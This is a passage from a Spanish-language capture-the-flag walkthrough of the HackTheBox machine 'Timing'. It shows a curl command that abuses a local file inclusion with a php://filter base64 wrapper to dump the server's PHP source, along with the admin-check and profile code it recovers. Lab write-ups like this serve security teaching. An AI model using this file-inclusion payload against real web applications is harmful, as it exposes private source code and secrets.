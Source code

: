 ```php
    }
} else {
    echo "Error: " . $error;
}
?>
```

Lo más importante es que vemos que se hace inclusión de otro archivo php al que podemos echarle un ojo:

```console
p3ntest1ng:~$ curl -s -X GET "http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=admin_auth_check.php" | base64 -d
```

```php
<?php

include_once "auth_check.php";

if (!isset($_SESSION['role']) || $_SESSION['role'] != 1) {
    echo "No permission to access this panel!";
    header('Location: ./index.php');
    die();
}
```

Aquí vemos que se está comprobando que si nuestra sesión no equivale a 1, entonces nos redirige automáticamente al **`index.php`**
Podemos seguir analizando archivos php, vamos a revisar el **`profile.php`** para ver qué tiene.

```php
<?php
include_once "header.php";

include_once "db_conn.php";

$id = $_SESSION['userid'];


// fetch updated user
$statement = $pdo->prepare("SELECT * FROM users WHERE id = :id");
$result = $statement->execute(array('id' => $id));
$user = $statement->fetch();


?>

<script src="js/profile.js"></script>
...[snip]...
```

Aquí lo interesante es que existe un **`profile.js`** que parece encargarse de actualizar nuestro perfil. Veamos el código.
